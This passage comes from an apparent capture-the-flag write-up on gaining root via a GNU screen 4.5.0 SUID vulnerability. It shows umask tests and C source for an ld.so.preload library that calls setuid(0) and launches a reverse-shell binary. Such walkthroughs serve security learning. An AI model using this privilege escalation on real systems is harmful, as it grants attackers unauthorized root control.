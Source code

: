 Testing the vulnerability seems to only be able to create files and add content to them as root if the `umask` value allows for it. However, this won't work with `cron` because the files in `/etc/cron.d/` cannot be writable by anyone else other than root...

- https://www.cyberciti.biz/tips/understanding-linux-unix-umask-value-usage.html

```bash
# change the default user file creation mask to allow anything
umask 000
# test creation, this returns a file with the content "TEST" :)
# -rw-rw-rw- 1 root www-data 6 Sep 24 19:16 test1
screen-4.5.0 -D -m -L /tmp/test1 echo TEST
# change the default user file creation mask to allow global read only
umask 022
# test creation, this returns an empty file :(
# -rw-r--r-- 1 root www-data 0 Sep 24 19:17 test2
screen-4.5.0 -D -m -L /tmp/test2 echo TEST
```

So this vulnerability cannot be used to make a custom `cron` task. Also, when trying to walk through the steps of exploit 41154 causes an error with `gcc`:

![gcc](./haircut/gcc.png)

This error is caused by a missing package, which requires root privileges to install... Next step is to cross-compile the code using Kali. From the target Linux Kernel verison enumeration, the CPU architecture is x86_64 which matches the Kali version:

- https://stackoverflow.com/questions/11912878/gcc-error-gcc-error-trying-to-exec-cc1-execvp-no-such-file-or-directory

![kali_kernel](./haircut/kali_kernel.png)

First create the shared library object that will be ran by `screen` from the `/etc/ld.so.preload` file. This shared library will fork a new child process and use the SUID of the parent (`screen`) to spawn a reverse shell as root:

```c
// file saved as bubba.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void bubba(void){
  printf("[*] removing /etc/ld.so.preload ...\n");
  unlink("/etc/ld.so.preload");
  printf("[*] spawning root shell...\n");
  if (!fork()) {
    // use SUID permissions of parent to elevate to root
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    // spawn reverse shell
    execvp("/tmp/bubba.root.elf", NULL);
  }
}
```

